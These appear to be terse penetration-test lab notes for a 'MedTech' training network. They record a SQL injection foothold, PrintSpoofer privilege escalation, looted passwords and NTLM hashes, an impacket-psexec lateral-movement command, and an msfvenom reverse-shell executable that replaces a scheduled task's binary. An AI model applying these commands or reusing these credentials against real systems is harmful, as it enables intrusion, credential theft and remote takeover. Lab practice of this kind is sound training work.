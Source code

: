 # MedTech

## Domain

### 192.168.190.121 / WEB 2

#### Foothold

sqli at [http://192.168.190.121/login.aspx](http://192.168.190.121/login.aspx)

#### Privesc

printspoofer64

#### Loot

joe:Flowers1

Administrator:b2c03054c306ac8fc5f9d188710b0168



### 172.16.190.14 / NTP

use mario offsec

### 172.16.190.11 / FILES02

User joe can acces throught psexec

```
impacket-psexec medtech/joe:Flowers1@172.16.190.11 -dc-ip 172.16.190.10
```

#### Loot

Administrator:f1014ac49bae005ee3ece5f47547d185

daisy : abf36048c1cf88f5603381c5128feb8e

toad : 5be63a865b65349851c1f11a067a3068

wario : fdf36048c1cf88f5630381c5e38feb8e : Mushroom!

goomba : 8e9e1516818ce4e54247e71e71b5f436

### 172.16.190.83 / CLIENT2

We can login with wario

#### PrivEsc

auditTracker.exe it's used in a task. we can hijack it

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.223 LPORT=4444 -f exe -o auditTracker.exe
```

replace it and then start the task

```
sc.exe start auditTracker
```

#### loot

administrator : 00fd074ec24fd70c76727ee9b2d7aacd

### 172.16.190.82 / CLIENT1

You can login with yoshi : Mushroom!

### 172.16.190.12 / DEV04

you can login with yoshi : Mushroom! using remmina

backup file



